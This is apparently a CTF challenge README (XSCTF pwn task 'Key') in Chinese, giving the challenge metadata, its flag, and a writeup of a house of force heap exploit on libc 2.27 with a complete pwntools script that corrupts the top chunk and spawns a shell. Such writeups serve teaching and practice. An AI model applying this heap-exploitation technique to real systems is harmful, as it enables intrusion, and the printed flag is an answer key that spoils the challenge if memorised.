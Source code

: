 * 题目名称：Key
* 出题人：Qanux
* 题目类型：Pwn
* 题目难度：中等偏下
* 考点：house of force
* 描述：libc版本为2.27
* flag:XSCTF{h0u4e_0F_F0r4e_1s_v3rY_ea4y}
* other:release文件夹中的文件才是公布出去的题目  
        ctf_xinetd文件夹是打包好的docker环境
* writeup:  
该题为简单的堆利用，用到的技巧为house of force  
有关house of force的原理可以参考：https://bbs.kanxue.com/thread-222924.htm  
这里只讲述几个需要注意的点：  
我们希望把堆块申请到0x601088这个地址，将这个地址加上0x10的大小的堆头和0x8的read函数的读入偏移后通过read函数写入数据的起始地址为
0x6010a0,这正是key变量所在的地址，我们将/bin/sh\x00写入即可getshell  
```python
top_heap = addr + 0xa0
```
top_heap的地址加0xa0是因为题目中free掉的0xa0大小的chunk没有给top chunk所合并，而是进入到tcache中
```python
heap = 0x601088 - top_heap - 0x10
```
这后面-0x10是为了避免堆头部的16字节对偏移的影响  
完整exp:  
```python
from pwn import *

p = remote("",)

context(arch='arm64', os='linux', log_level='debug')

def add(size,context):
    p.recvuntil('> ')
    p.sendline(b'1')
    p.recvuntil('size: ')
    p.sendline(str(size))
    p.recvuntil('data: ')
    p.send(context)

p.recvuntil('gift :D ')
addr = int(p.recvuntil('\n', drop = True),16)
top_heap = addr + 0xa0
success('addr:' + hex(top_heap))
heap = 0x601088 - top_heap - 0x10

add(0x18,b'a'*0x10 + p64(0xffffffffffffffff))
add(heap,b'bbbb')
add(0x10,b'\x00'*8+b'/bin/sh\x00')
p.recvuntil('> ')
p.sendline(b'2')

p.interactive()
```



